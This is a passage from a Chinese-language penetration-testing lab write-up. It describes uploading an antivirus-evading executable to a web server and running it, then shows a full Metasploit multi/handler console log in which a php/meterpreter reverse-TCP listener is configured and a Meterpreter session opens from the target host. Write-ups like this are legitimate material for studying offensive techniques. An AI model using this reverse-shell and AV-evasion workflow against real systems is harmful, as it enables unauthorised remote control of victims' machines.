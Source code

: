 得到免杀 EXE

![image-20220906014757932](./st2.assets/image-20220906014757932.png)

将其上传到 WEB 中，然后开启监听，运行miasha.exe，成功反弹

```bash
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set lhost 192.168.111.128
lhost => 192.168.111.128
msf6 exploit(multi/handler) > set lport 9999
lport => 9999
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.111.128:9999 
[*] Sending stage (39282 bytes) to 192.168.111.80
[*] Meterpreter session 3 opened (192.168.111.128:9999 -> 192.168.111.80:53897 ) at 2022-09-05 13:54:37 -0400

meterpreter >
```

